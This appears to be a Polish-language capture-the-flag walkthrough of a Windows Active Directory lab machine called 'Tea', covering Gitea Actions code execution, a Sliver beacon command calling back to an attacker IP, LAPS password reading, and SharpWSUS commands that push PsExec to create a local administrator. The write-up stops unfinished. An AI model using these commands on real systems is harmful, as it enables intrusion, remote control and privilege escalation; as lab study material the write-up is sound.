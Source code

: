 # Tea
Windows, Medium, created by **kozie**

![tea_slide](https://github.com/user-attachments/assets/1d64456c-c18d-4db6-baed-de06eb17eed7)

```
Nmap scan report for 10.10.162.37
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-22 12:22:54Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: tea.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tea.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
51834/tcp open  msrpc         Microsoft Windows RPC
62537/tcp open  msrpc         Microsoft Windows RPC
64037/tcp open  msrpc         Microsoft Windows RPC
64039/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
64040/tcp open  msrpc         Microsoft Windows RPC
64051/tcp open  msrpc         Microsoft Windows RPC


Nmap scan report for 10.10.162.38
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
3000/tcp  open  ppp?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=SRV.tea.vl
| Issuer: commonName=SRV.tea.vl
8530/tcp  open  http          Microsoft IIS httpd 10.0
8531/tcp  open  unknown
49670/tcp open  msrpc         Microsoft Windows RPC

```

nice z smb null i guest.
nic z ldapa.
na 3000 mamy gitea.

![{3FB20AF9-7422-4ED7-A495-A7EE71B75837}](https://github.com/user-attachments/assets/6e401bfa-8b32-447b-b04f-68d7cea4907f)

robimy usera.

![{0288ED8E-C6EA-4421-B4D8-4BBFB6D5B755}](https://github.com/user-attachments/assets/eec0a41f-3cdd-40c8-b1f3-aa6c343444ea)

wygląda na to, że to będzie rce przez gitea runners

zrobię krok po kroku.

Create a new repo

![{5621793F-60A6-491C-AD2E-689A5DCAAD4D}](https://github.com/user-attachments/assets/bec20240-5cf4-4067-a792-5ef65a3fc02e)

![{91C18823-F149-42AF-B21B-4F6E9F5DD289}](https://github.com/user-attachments/assets/4a0da2c0-e8ed-4895-904e-35ec552e6a74)

stworzyło się.

w settings klikamy `Enable Repository actions`

![{F32DCB5D-D9EE-49B6-95F8-D7C85BC29F7B}](https://github.com/user-attachments/assets/c739d176-017f-4fef-8920-8bcc822caec7)

teraz troche `docsów` [https://blog.gitea.com/feature-preview-gitea-actions/](https://blog.gitea.com/feature-preview-gitea-actions/)

![{C20DE314-D141-4A81-ACF5-0FC79EFD4464}](https://github.com/user-attachments/assets/072acc29-2b3d-4de2-88fe-815a87bf1cb6)

o i mamy nasz payload (ale pamiętamy, że to windows)

generuję sobie revshella w powershellu

![{A377889B-7A21-4443-8C15-8E00B8175368}](https://github.com/user-attachments/assets/2e3570b5-8e4b-4804-8a0f-78231837364d)

![{E813ACD1-40F6-4CEE-90B8-8D9462FD5EAF}](https://github.com/user-attachments/assets/52ae54a0-790c-4b9d-ab9f-d12ae93a5aaf)

mniej więcej coś takiego. Teraz commit changes

![{47B8C10F-CE93-4202-9B8D-19F536B1DFC9}](https://github.com/user-attachments/assets/eff71693-f33f-4a96-acd1-72d11285d718)

i mmay shella po ~10sek

![{3883BA25-4D3C-4BEA-8CFD-C3E65510C34D}](https://github.com/user-attachments/assets/6e2ccf27-2e9d-41c5-8cbb-360fd85d0f75)

już myślałem, że fajny shell będzie, ale.. port 22 nie jest otwarty :/

![{09F838FD-C64B-44D6-8B65-07A38A900AEA}](https://github.com/user-attachments/assets/fb31869c-62c6-411a-916b-84c7de7c7c10)

ale chociaż flagę dali

![{091F78EF-5662-467D-9831-0509621C3DAA}](https://github.com/user-attachments/assets/6fa51966-36ad-4e1b-8cc2-42b6ae6fa748)

te grupki ciekawe całkiem.

![{3B3A3B61-C126-4686-9596-358494B15A85}](https://github.com/user-attachments/assets/31b5559e-bdb3-4f62-9e5f-894aca334c70)

psexec też ciekawe, że widzimy tutaj (ale laps ciekawsze)

![{39A58CE0-01D4-4C4D-8D58-6C40CA2B1FC7}](https://github.com/user-attachments/assets/2e955980-5b28-4f79-9f03-05da1943dc74)

z ciekawosci wziąłem hash i sprawdzam czy hasło nie wystęuje w rockyou
- nie występuje

Ostatnio trochę mocniej w redteam idę i bawię się sliverem więc tutaj użyjemy slivera zamiast ładować binarki na maszynkę.
```
generate beacon --seconds 5 --jitter 3 --os windows --arch amd64 --format EXECUTABLE --http 10.8.4.124:443 --name tea --save ./beacon.exe -G 
```
(to leci kilka minut. Jak chcesz szybciej to daj sobie --skip-symbols)

![{1FEA1625-9874-4853-87F3-60A89544B0D9}](https://github.com/user-attachments/assets/3ba8bf74-1525-429e-8b81-1037052d6e5b)

![{A1EAA0A4-A09D-4AAA-84C8-5B66F214A021}](https://github.com/user-attachments/assets/1e53e662-f6a1-4a14-b3df-95ac0d67dda6)

i mamy to

![{AEDBCEB7-A851-45D5-A9DA-01C875DA0839}](https://github.com/user-attachments/assets/3f782e27-9a0e-4076-9b32-bca914b1ec7d)

`sharp-hound-4 -i -s -t 120 -- -c all`

![{D5E53598-B2B1-43BB-B647-FC35C9916F4B}](https://github.com/user-attachments/assets/5a8a9f8e-b827-4ff5-b2fc-4614f647fdcb)

![{65326E1F-3156-41F5-9D57-1115049B6BA8}](https://github.com/user-attachments/assets/b52a7459-5007-49bf-8163-6a7b95650488)

chyba mam za nowego bloodhound :/
- Ale to oleję. Wiemy, że mamy coś z lapsem więc spróbuję zobaczyć czy mamy uprawnienia do czytania hasła z LAPS po prostu z powershella (bloodhound nie robi jakiejś magi. To tylko zbiór komend xd)

![{938D800B-51E0-45DD-AFE0-7B9A99B64E3F}](https://github.com/user-attachments/assets/5f2771c8-f223-48b8-a121-892b666ccf4b)

Możemy.

![asplaintext](https://github.com/user-attachments/assets/c73cb875-b51a-47bc-8e12-359a10129e0d)

- próbuję uruchomić drugą sesję slivera jako administrator, ale... składnia mi się działa.
- Poszedłem na RDP :D

![{84EFACF5-2B7E-4442-B20E-247C471D14F2}](https://github.com/user-attachments/assets/1f6c156a-bd55-49c1-8a66-a8ea7a30f563)


![{F3ABBF20-62F8-49A2-BFEE-BD850CA5CA3C}](https://github.com/user-attachments/assets/de7b383d-335f-41e0-b17e-61f310c7b756)

no to została nam jedna flaga
- szukając eskalacji możemy wrócic to tego co widzieliśmy.

![{044CA1EE-36B1-49E7-AC3B-76DAB67A96DB}](https://github.com/user-attachments/assets/c2ceb26f-b751-4409-bd7e-e41f037f6011)

![{CB905CF4-A02E-429A-87F8-220C90BA32A8}](https://github.com/user-attachments/assets/fe883697-a3e7-45f4-9ac8-e11813a9313d)

![{74B36F89-7BDA-47B8-8CFA-234150C6B61B}](https://github.com/user-attachments/assets/8d1c5797-7a0d-478f-8558-e1eb11b36102)


wygląda jakby pasowało :D

o to też wygląda jakby pasowało `https://github.com/techspence/SharpWSUS.git`

![{F9F6FFEF-5D9D-4BB8-81FE-7E55CB146C0F}](https://github.com/user-attachments/assets/62797a22-a4b4-483a-a53c-5b4466d738a1)

pobrałem sobie

![{E7DCFFB1-2E15-45C3-B112-506A6EDD295F}](https://github.com/user-attachments/assets/c3261892-4724-4fc5-8fcb-6e305e4fa03c)

```
sharpwsus.exe create /payload:"C:\_install\PSExec64.exe" /args:"-accepteula -s -d cmd.exe /c \\"net user Hollow Password1! add && net localgroup administrators Hollow /add\\""
```

![{89AD566F-ACFE-4BDF-AA01-D1CB182F9052}](https://github.com/user-attachments/assets/bd6f2c71-39cf-4740-a1bc-94dc3eca1b00)


![{18E78348-719E-4566-ACC6-B94B17D963E7}](https://github.com/user-attachments/assets/75305924-6f30-4eb5-b658-dd81a52bf56b)

![{5C7AF4FE-AAB0-4D85-A78F-A2613A4BAF09}](https://github.com/user-attachments/assets/416febc8-7024-40b4-ad5f-ec3cbd8e2550)

jakoś po minucie mamy tutaj update

![{58FC3C4E-74C6-4AF5-8BE1-6D478D1D8952}](https://github.com/user-attachments/assets/224c3ea8-9126-4bb8-8b25-17c4effca655)

po kolejnych 3 minutach nie widzimy naszego usera :(

- poczekałem do 10 i znalazłem literówkę w payloadzie.

```
sharpwsus.exe create /payload:"C:\_install\PSExec64.exe" /args:"-accepteula -s -d cmd.exe /c \\"net user Hollow Password1! /add && net localgroup administrators Hollow /add\\""
```

![{C5DD6CC9-8BB9-43C6-A04C-5609DD04F5A6}](https://github.com/user-attachments/assets/2dcd0d43-e509-4b13-9ade-1501b61ba896)

teraz mamy 1/4, a nie 1/3. Zawsze jakaś zmiana xD


# tutuaj wróć po świętach
zmieniłem strategię o odpalam komendy pojedynczo.
```

```
